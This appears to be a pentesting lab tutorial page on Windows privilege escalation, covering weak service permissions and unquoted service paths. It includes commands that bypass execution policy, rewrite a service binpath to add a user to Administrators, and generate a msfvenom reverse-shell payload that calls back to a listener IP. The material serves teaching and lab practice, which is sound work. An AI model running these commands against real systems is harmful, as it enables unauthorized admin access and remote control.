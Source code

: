 # 🛀 Service Permissions (Paths)

### Definitions

* **Service Path**: When Windows starts up or runs certain programs, it often uses "services" to do so. Each service has a specific path that tells Windows where to find the program it needs to run.
* **Quoted vs. Unquoted**: If the service path is "quoted" (enclosed in quotation marks), it tells Windows exactly where to find the program, even if there are spaces in the path. For example: `"C:\Program Files\My Service\service.exe"`. If the service path is "unquoted" (not enclosed in quotation marks), Windows might get confused about where the program is located if there are spaces in the path. For example: `C:\Program Files\My Service\service.exe`.

### Escalation via Binary Paths <a href="#lecture_heading" id="lecture_heading"></a>

first open this file in a cmd and type:

<figure><img src="../../../../.gitbook/assets/image (615).png" alt=""><figcaption></figcaption></figure>

```
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```

1. `powershell -ep bypass`: This command starts a PowerShell session with the execution policy set to bypass. The `-ep` parameter stands for "ExecutionPolicy" and allows you to specify the execution policy for the PowerShell session. Setting it to "bypass" allows scripts to run without any restrictions. This is often used when running scripts that may be blocked by more restrictive execution policies.
2. `. .\PowerUp.ps1`: This command executes a PowerShell script named "PowerUp.ps1" located in the current directory. The `.\` prefix specifies the current directory, and the `.` followed by a space before the script filename indicates that the script should be executed in the current session (rather than in a new session). This is known as "dot-sourcing" a script, which means the script's contents are executed within the current scope rather than in a separate scope.
3. `Invoke-AllChecks`: This command invokes a function or cmdlet named "Invoke-AllChecks". This command is likely a part of the "PowerUp.ps1" script that was dot-sourced in the previous step. The purpose of this command is to trigger the execution of a series of checks or tests within the script. These checks could be related to system configuration, security vulnerabilities, or other aspects of the system that the script is designed to assess.

This is very automatic, in a more manual way, you can cd to this directory:

```
cd \Desktop\Tools\Accesschk
accesschk64.exe -uwcv Everyone *
```

1. **accesschk64.exe**: This is an executable file, specifically for 64-bit Windows systems, that is part of the Sysinternals suite of tools developed by Microsoft. The `accesschk` tool is used to view the effective permissions for files, directories, registry keys, or other securable objects in Windows. In this case, `accesschk64.exe` specifically refers to the 64-bit version of the `accesschk` tool.
2. **-uwcv**: These are command-line options or switches that modify the behavior of the `accesschk64.exe` tool. Here's what each of them does:
   * `-u`: Specifies that the output should display user account names associated with the permissions but no errors, just positive finds.
   * `-w`: Specifies that the output should display only objects for which the specified user has write access.
   * `-c`: Specifies that the output should include containers, such as directories or registry keys, in addition to objects directly specified.
   * `-v`: Specifies that the output should be verbose, providing additional information about the permissions.
3. **Everyone**: This is a placeholder representing the user or group whose permissions are being checked. In this case, it refers to the "Everyone" group, which includes all user accounts, even those without explicit permission.
4. **\***: This wildcard character is used to specify the resource or object for which permissions are being checked. When used with `accesschk`, it typically means to check permissions for all objects that match the specified criteria. In this context, `*` could refer to all files, directories, registry keys, or other securable objects in the system.

<figure><img src="../../../../.gitbook/assets/image (616).png" alt=""><figcaption><p>Manual method</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (617).png" alt=""><figcaption><p>Automatic method</p></figcaption></figure>

We can also see that we can restart the service, very important! We could add something malicious and then restart it to gain more privileges, for example.

Now we're goinf to run access check on the service itself to try and get more informations about what's happening

```
accesschk64.exe -wuvc daclsvc
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (1).png" alt=""><figcaption></figcaption></figure>

we got read write for everyone as we can see

since we are part of the `everyone` groupe; we put it in our previous command, but we could've put in any group. Good thing to note is the `change_config` service that we can modify&#x20;

```
sc qc daclsvc
```

1. **sc**: This is the Service Control command-line utility in Windows. It allows you to communicate with the Service Control Manager and services.
2. **qc**: This is an abbreviation for "queryconfig". It instructs `sc` to display the configuration information for the specified service.
3. **daclsvc**: This is the name of the service for which you want to query the configuration information. In this case, it refers to a service named "daclsvc". Services in Windows are background processes that can be automatically started when the system boots or on demand.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) ( (2).png" alt=""><figcaption></figcaption></figure>

We can see the binary path name, but since we have change\_config enabled we can modify this

```
sc config daclsvc binpath= "net localgroup administrators user /add"
```

and you can see that if we start daclsvc, we can see some changes:

```
net localgroup administrators
sc start daclsvc
net localgroup administrators 
```

<figure><img src="../../../../.gitbook/assets/2024-03-19_14-49.png" alt=""><figcaption></figcaption></figure>

So we're now in the Administrators group

### &#x20; Escalation via Unquoted Service Paths <a href="#lecture_heading" id="lecture_heading"></a>

<figure><img src="../../../../.gitbook/assets/image (1096).png" alt=""><figcaption></figcaption></figure>

An attacker can exploit an unquoted service path by creating a malicious program with a name that Windows might mistakenly run instead of the intended service. For example, if the path is unquoted, Windows might interpret `C:\Program Files\My Service\service.exe` as trying to run a program at `C:\Program.exe` or `C:\Program Files\My.exe` instead of the correct `service.exe`.

So after running PowerUp and starting the InvokeAllchecks command, we search for the unquoted path section:

<figure><img src="../../../../.gitbook/assets/image (1097).png" alt=""><figcaption></figcaption></figure>

So we can see the service _**Unquotedsvc**_ that has an unquoted service path with many spaces.

Now we are going to look at the service more in depth with the Registry Editor (regedit). It provides a tree structure that users can navigate to find specific keys and values. These keys and values are organized in a manner similar to folders and files on a hard drive.

It's good to know that the Windows Registry is a hierarchical database that stores low-level settings for the operating system and for applications that opt to use the registry.

The registry contains configuration settings for the operating system, hardware devices, user preferences, and installed software. Editing the registry can change how Windows or certain applications behave.

So let's look for unquotedsvc in the registry editor:

<figure><img src="../../../../.gitbook/assets/image (1098).png" alt=""><figcaption></figcaption></figure>

So what this means is, when the unquotedsvc service will start, it will load all those file from start to bottom

What could happen here would be that Windows can misinterpret the path and try to execute a different executable than the intended one. Here are the possible interpretations:

* `C:\Program.exe`
* `C:\Program Files\My.exe`
* `C:\Program Files\My Service\service.exe` (the intended executable)

So now we are going to craft our payload, send it to the target and execute it:

craft the payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.54.172 LPORT=5454 -f exe -o common.exe
```

host and transfer the payload:

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And of course we are going to save it in the unquoted service path:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So after launching our netcat listener on the port we listed on our msfconsole payload, we're going to restart the unquotedsvc service and look what happens:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And just like that we got our shell!!

